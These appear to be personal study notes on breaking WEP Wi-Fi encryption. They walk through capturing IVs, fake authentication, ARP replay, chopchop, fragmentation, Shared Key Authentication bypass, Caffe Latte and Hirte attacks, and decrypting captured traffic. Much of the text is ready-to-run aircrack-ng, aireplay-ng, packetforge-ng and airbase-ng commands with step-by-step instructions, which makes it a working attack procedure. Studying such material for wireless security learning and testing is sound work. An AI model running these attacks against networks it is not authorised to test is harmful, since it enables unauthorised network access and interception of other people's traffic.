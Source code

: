 WEP

![[Pasted image 20220707110514.png]]

CRC-32 is a digest, just like MD5

An attacker can sniff packets, where the IV (24 bit) is in plain text. since 24 bit is not much, capturing enough packets, statistical attacks can be run. RC4 generates the same keystring for a same IV+key. #Data in airodump shows how many useful packets have been captured. When enough are present we can crack it with:
``aircrack-ng archivo.cap``

Sometimes aircrack doesn't return the ascii version of the key but we can connect to the network with the hex (without the ":" ). 

If not many clients are connected we can force the AP to send us traffic. We first need to associate with it (otherwise it ignores our requests), then we can send packets and capture the IVs in the packets it returns to us.

For this, keep saving packets:
``sudo airodump-ng --bssid <bssid> --channel <channel> --write out wlan0mon``

and do a fake auth (the 0 indicates that the attack is done once):
``sudo aireplay-ng --fakeauth 0 -a <AP bssid> -h <la MAC de wlan0mon> wlan0mon``

In monitor mode, with ifconfig we see ``unspec`` instead of  ``ether`` and the MAC looks longer, we need only the first 6 bytes:
<font color=red>and for aireplay commands replace - by : </font>

At this point we are only associated to the AP, not connected to it. There are several methods to generate traffic:

#### Crafted ARP packets
Wait till there is an ARP packet (sent by the clients already connected to the network). They will be encrypted but because of their length we know they can be ARP. We just relay them to the AP. The AP will respond to us with another packet with a new IV. We do this until we have enough IVs.
To do this (just befor this command run the --fakeauth just in case)
It is necessary to use a target client MAC with -h, the MAC of a client that is already connected to the network and sends valid IVs
``sudo aireplay-ng --arpreplay -b <AP bssid> -h <target client MAC> wlan0mon``

<font color=red> The -a used in other commands is replaced by -b for the BSSID and the --arpreplay doesn't have any number afterward</font>
This captures packets until one of them is an ARP request, and then starts to generate traffic. Watch with airodump who many useful packets we have in ``#Data``.

<font color=red>to capture useful ARP packets we either need to be associated with the AP (fakeauth) or use with aireplay-ng arpreplay the MAC of an associated client</font>

Depending on the key length (64 or 128) bit it takes more IVs to crack the key

#### Stealthy sniffing
Just waiting for clients to send a lot of IVs to the AP can take a lot of time but it's stealty

#### Chop chop attack
Instead of replaying an ARP packet we determine the keystream of a packet, we craft a new packet with the keystream and inject it to the AP. The AP will respond with a new IV that we will replay, etc. Can be used when no clients are connected to the AP

<font color=red>The --fakeauth attack is only used against OPEN and WEP networks, it doesn't work against WPA/WPA2. Fake auth doesn't generate ARP packets. The lack of association with the access point is the biggest reason why injection fails, so we need to do fakeauth before trying to inject packets to WEP networks (ARP replay, chopchop, fragmentation attack).</font>
Sometimes you periodically get disassociation events. Some access points require to reassociate every 30 seconds, otherwise the fake client is considered disconnected. In this case, setup the periodic re-association delay:

```bash
aireplay-ng -1 30 -e 'the ssid' -a 00:13:10:30:24:9C -h 00:11:22:33:44:55 ath0
```
If fake authentication is never successful (aireplay-ng keeps sending authentication requests) then MAC address filtering may be in place

more info and troubleshooting in: https://www.aircrack-ng.org/doku.php?id=fake_authentication

```bash
# We first start airodump to capture packets and save them to a file
sudo airodump-ng --bssid <bssid> --channel <channel> --write out wlan0mon

# Then we do fake auth with aireplay to associate to the AP (run just before the chop chop attack). We can get our MAC with ifconfig wlan0
sudo aireplay-ng --fakeauth 0 -a <AP bssid> -h <our wlan0mon MAC that we want to associate> wlan0mon

# chop chop attack (waits for beacons from AP to try to determine keystream from them)
sudo aireplay-ng --chopchop -b <AP bssid> -h <our wlan0mon MAC> wlan0mon

# When it finds an ARP packet it asks if we want to use it. say "y". After a while it saves the keystream in a xor file. We can do ctrl-C to not wait much, but the saved keystream may fail. If so, keep the chop chop working for longer.

# After that, forge an ARP packet (-0 option)
packetforge-ng -0 -a <bssid> -h <our wlan0mon MAC address> -k 255.255.255.255 -l 255.255.255.255 -y <file.xor> -w <forged packet name>
# -k is destination IP (use 255.255.255.255)
# -l is source IP (use 255.255.255.255)
# <forged packet name> can be anything, it's the name of the forged packet

# having done --deauth again, use the forged packet:
sudo aireplay-ng -2 -r <forged packet name> wlan0mon
# -2 is for replaying
# it asks again if we want to use the packet. say "y", this starts to generate traffic that airodump caputres
```


#### fragmentation attack
Similar to chop chop but we need to obtain 1500 bytes from the pseudo random generator algorithm (PRGA). With this attack another packet is forged, but it's faster than chop chop, although we need to be physically close to the AP so that it works better.

```bash
# Start saving packets
sudo airodump-ng --bssid <bssid> --channel <channel> --write out wlan0mon

# fake auth (the 0 instructs to do the attack once)
sudo aireplay-ng --fakeauth 0 -a <AP bssid> -h <our wlan0mon MAC> wlan0mon

# Obtain PRGA
aireplay-ng --fragment -b <bssid> -h <our wlan0mon MAC> wlan0mon

# Say "y" when asked. It may fail several times and ask us if we want to use another. say "y" always. When one of the packets is useful it lets us know and saves the keystream in a .xor file

# forge a new packet (with -0 it creates an ARP packet)
packetforge-ng -0 -a <bssid> -h <nuestra mac de wlan0mon> -k 255.255.255.255 -l 255.255.255.255 -y <xor file> -w <output>

# inject the forged packet (remember to do fake auth just before this)
sudo aireplay-ng -2 -r <forged packet name> wlan0mon
```


#### WEP SKA
Normally when we do fake auth with aireplay-ng to a WEP network we can see it becomes OPN, but some routers allow to configure Shared Key Authentication (SKA), which prevents that no one without that key can associate to the AP (unlike in OPEN networks, where anyone can associate). In networks with SKA set up we will see SKA after doing fake auth. 

It is possible to deauthenticate a connected client, and capture the SKA when he reconnects. With this key we can associate to the AP and try the previous attacks to recover the WEP key.

We can also inject an ARP packet using the MAC address of the client which is already connected to the AP. With this we can generate traffic to recover IVs and still crack the WEP password, despite not having the SKA.

```bash
sudo aireplay-ng --arpreplay -b <AP bssid> -h <MAC of a connected client> wlan0mon
```

The 802.11w standard protects against deauth attacks, buth must be supported by both the client and the AP

When we have cracked a WEP or WPA key we can decrypt captured traffic in wireshark:

``preferences > protocols > IEEE 802.11``, check "enable decryption", edit the decryption keys y create new entries. For WEP, use the key in hex format.`

If we don't have wireshark we can do:
```bash
airdecap-ng -w <wep key in hex> <pcap>
tshark -r <decrypted pcap>
```


### AP-less attacks: Caffe latte attack
We can craft packets by modifying the ICV (integrity check value, that is, a CRC) and the plantext of a message and do so in a way that the AP thinks that the message is legitimate.

With this we can modify a Gratuitous ARP packet and change it to an ARP request packet, to repeat the ARP attack

Client devices store the keys of the networks they already connected to in the past. If we create a fake AP that looks like on of the stored APs in the client PNL, he will connect to us and send WEP-encrypted data with the target AP key. Sometimes it sends also Gratuitous ARP packets, to say its IP and MAC
 In these messages we won't find the target MAC, and the target IP and sender IP are the same (that of the client). We as an AP send requests to the client, and he will return responses to us, from where we get valid IVs that can be cracked as always.

We don't have a valid WEP keys for the crafted packets, but due to the properties of XOR we can modify the packets that he sends us, and they will still be valid.


#### Hirte attack
AP-less attack
```bash
# create fake AP (-N for hirte attack)
airbase-ng -c 1 --essid "network1" -W 1 -N mon0

# capture packets
airodump-ng -c 1 mon0 --write Hirte

# wait for the client to connect, and ARP packets should start being replayed, 
```


### WEP cloacking 
WEP protection in which fake packets are sent into the air to make it difficult to crack WEP (they try to difficult the statistical attacks)


